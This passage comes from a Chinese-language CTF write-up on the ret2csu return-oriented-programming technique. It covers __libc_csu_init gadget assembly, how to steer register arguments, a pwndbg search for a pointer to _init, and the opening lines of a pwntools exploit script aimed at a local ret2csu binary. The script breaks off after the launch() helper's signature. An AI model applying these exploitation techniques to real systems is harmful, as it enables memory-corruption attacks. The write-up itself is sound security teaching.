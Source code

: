 ```asm wrap=false showLineNumbers=false
mov rdx, r15
mov rsi, r14
mov edi, r13d
call QWORD PTR [r12 + rbx * 8]
```

这不就直接控制了函数的前三个参数了？多好。

注意第二个 gadget 也可以是以 `ret` 结束的，但是需要抵消一些 side effects：

```asm wrap=false showLineNumbers=false
mov rdx, r15
mov rsi, r14
mov edi, r13d
call QWORD PTR [r12 + rbx * 8]
add rbx, 0x1
cmp rbp, rbx
jnz <func>
  <snap>
ret
```

- `[r12 + rbx * 8]` 必须指向一个存储可调用函数的地址（如果没有想法且没有 PIE，可以直接使用 `_init` 函数）。
- `rbp` 和 `rbx` 必须具有相同的值以避免跳转。
- 有一些被省略的 `pop`s 需要考虑。

另外，从 ret2csu gadget 控制 rdi 和 rsi 的另一种方法是通过访问特定的偏移量，可以参考这篇讲 BROP 的论文[^2].

<center>
  <img src="https://cdn.jsdelivr.net/gh/CuB3y0nd/IMAGES@master/assets/Untitled-2024-02-05-132429.svg" />
</center>

唯一一个问题可能就是怎么让 `call QWORD PTR [r12 + rbx * 8]` 调用 `_init` 了，不解释，直接看操作：

```asm wrap=false showLineNumbers=false ins={7-8}
pwndbg> x/a _init
0x4004d0 <_init>: 0x1d058b4808ec8348
pwndbg> search -t dword 0x4004d0
Searching for a 4-byte integer: b'\xd0\x04@\x00'
ret2csu         0x400398 rol byte ptr [rax + rax*2], 1
ret2csu         0x400e38 rol byte ptr [rax + rax*2], 1
ret2csu         0x600398 0x4004d0 (_init)
ret2csu         0x600e38 0x4004d0 (_init)
```

## Exploit

```python
#!/usr/bin/python3

from contextlib import contextmanager

from pwn import ELF, context, flat, gdb, log, process, remote

context(log_level="debug", terminal="kitty")

FILE = "./ret2csu"
HOST, PORT = "localhost", 1337

gdbscript = """
b *pwnme+133
c
"""


@contextmanager
def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
```

[^1]: Marco-gisbert, Hector and Ismael Ripoll. "return-to-csu: a new method to bypass 64-bit Linux ASLR." (2018).
[^2]: A. Bittau, A. Belay, A. Mashtizadeh, D. Mazières and D. Boneh, "Hacking Blind," 2014 IEEE Symposium on Security and Privacy, Berkeley, CA, USA, 2014, pp. 227-242, doi: 10.1109/SP.2014.22.